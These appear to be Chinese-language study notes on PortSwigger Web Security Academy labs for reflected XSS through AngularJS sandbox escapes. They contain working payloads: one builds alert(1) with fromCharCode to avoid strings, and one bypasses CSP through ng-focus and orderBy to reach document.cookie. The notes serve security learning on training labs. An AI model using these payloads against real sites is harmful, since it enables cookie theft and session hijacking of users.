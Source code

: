 ## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) with AngularJS sandbox escape without strings

```html
<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
$scope.query = {};
var key = 'search';
$scope.query[key] = '123';
$scope.value = $parse(key)($scope.query);
});</script>
<h1 ng-controller=vulnCtrl>0 search results for {{value}}</h1>
```

$scope 用于规范当前作用域（没搜到 应该是和这个controller相关的

[$parse](https://docs.angularjs.org/api/ng/service/$parse) 的功能是将 AngularJS 表达式转换为函数。类似 JS 中 function constructor 的感觉

通过原型设置`String.charAt`破坏沙箱逻辑，然后将数组传递给 orderBy 过滤器。再次使用 toString() 创建字符串和 String 构造函数属性来设置过滤器的参数，再使用`fromCharCode`方法通过将字符代码转换为字符串`x=alert(1)`来生成 payload。

```js
?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

~~有点难、也许应该先读一读 AngularJS 源码~~

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) with AngularJS sandbox escape and CSP

```htaccess
Content-Security-Policy: 
default-src 'self'; script-src 'self'; style-src 'unsafe-inline' 'self'
```

script 指定了仅同源

题解通过 hash 触发 AngularJS 中的`ng-focus`。payload中冒号表示正在发送到过滤器的参数。在参数中，我们没有直接调用警报函数，而是将其分配给变量 z。仅当 orderBy 操作到达 $event.path 数组中的 window 对象时才会调用该函数。这意味着它可以在窗口范围内调用，而无需显式引用`window`对象，从而有效地绕过 AngularJS 的`window`检查。

```html
<script>
location.href="https://0a580013046fcd29842ff495005000f3.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x"
</script>
```

## Lab: [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) with event handlers and `href` attributes blocked
